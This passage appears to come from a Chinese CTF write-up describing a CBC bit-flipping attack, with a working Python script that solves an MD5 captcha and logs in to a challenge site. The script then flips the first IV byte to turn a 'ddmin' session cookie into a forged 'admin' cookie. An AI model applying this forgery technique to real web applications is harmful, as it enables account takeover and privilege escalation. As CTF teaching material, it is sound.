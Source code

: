 ```
    res = requests.get(URL, cookies={'username': cookie}).text
    print i, cookie, len(res)
    if(len(repr(res))!=2163 and len(res)!= 29):
        print res.encode('utf-8')
```

## cbc攻击 ##

后来Hcamael大佬告诉我这个是googlectf出过，cbc第一个字节异或就可以了，可以伪造任意值。。。。害怕

[wooyun也有这个的文章](http://drops.wooyun.org/tips/7828)
[Hcamael的博客](http://0x48.pw/2016/05/03/0x1A/)

我们先用ddmin注册一个账号，登陆获得username的cookie，然后拿iv的第一个字节和'd'和'a'异或，然后拼接回去，就是admin的cookie，理论上可以伪造任意值



```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import hashlib
import base64
import re

def fuck_captcha(s):
	for x in xrange(0, 10000000):
		y = hashlib.md5(str(x)).hexdigest()
		if y[:4] == s:
			return str(x)
	print "God personality.(%s)" %s
	exit(1)


url = "http://451bf8ea3268360ee.jie.sangebaimao.com/login.php"
url2 = "http://451bf8ea3268360ee.jie.sangebaimao.com"

req = requests.get(url)

c = req.headers['Set-Cookie'].split(";")[0]
c = c.split("=")
cookie = {c[0]: c[1]}

cap = re.findall("=([a-f0-9]{4})", req.content)[0]
captcha = fuck_captcha(cap)

data = {"username": "ddmin", "password": "ddog", "captcha": captcha}
req = requests.post(url, data=data, cookies=cookie, allow_redirects=False)

c = req.headers['Set-Cookie']

user = c.split("=")[1]

u = user.replace("-", "+").replace("_", "/")
u += "=" * (len(u) % 4)

de = base64.b64decode(u)
de2 = chr(ord(de[0]) ^ ord('d') ^ ord('a')) + de[1:]

en = base64.b64encode(de2).replace("+", "-").replace("/", "_").replace("=", "")
# cookie = {"username": en}
# req = requests.get(url, cookies=cookie)
print en
# 输出的en为admin的cookie
```